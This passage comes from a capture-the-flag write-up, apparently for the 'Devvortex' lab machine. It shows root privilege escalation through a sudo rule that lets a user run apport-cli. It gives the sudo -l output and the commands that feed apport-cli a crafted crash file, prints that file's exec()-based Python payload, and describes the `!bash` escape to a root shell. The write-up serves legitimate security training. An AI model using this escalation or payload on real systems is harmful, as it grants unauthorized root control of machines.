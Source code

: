 We can check `logan`'s `sudoer` entry with `sudo -l`, we know that they’re able to run `apport-cli` as `root`:

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

## Privilege escalation | System root

According to this [proof of concept exploit](https://github.com/DonnchaC/ubuntu-apport-exploitation), viewing a crafted crash log through this version of `apport-cli` can lead to arbitrary code execution.
We can’t just use a random crash log as this must be *crafted* to contain malicious code, but the POC *does* include a `minimal-rce.crash` file that will do the heavy lifting for us.

We can copy/paste its contents into a file on the box and pass it to `apport-cli`, and then execute the binary as `root` using `sudo apport-cli -c ./test.crash`:

```bash
logan@devvortex:~$ vim ./test.crash
logan@devvortex:~$ sudo apport-cli -c ./test.crash

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (0.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

```

Choosing option `V` opens the log in the `apport-cli` report viewer, which seems similar to a Vi or Vi-adjacent editor - we can invoke a `root` shell by simply typing `!bash`, and then `cat` out the
second flag at the usual `/root/root.txt` directory:

```bash
== CrashDB =================================
{'impl': 'memory', 'crash_config': exec("""
import subprocess
payload_cmd = "pkill -9 apport; gnome-calculator"
subprocess.Popen(payload_cmd, shell=True)
""", {}) }

== ExecutablePath =================================
/usr/bin/file-roller

== ProblemType =================================
Bug

== Stacktrace =================================
None

== UnreportableReason =================================
A package hook defines an invalid crash database definition:
```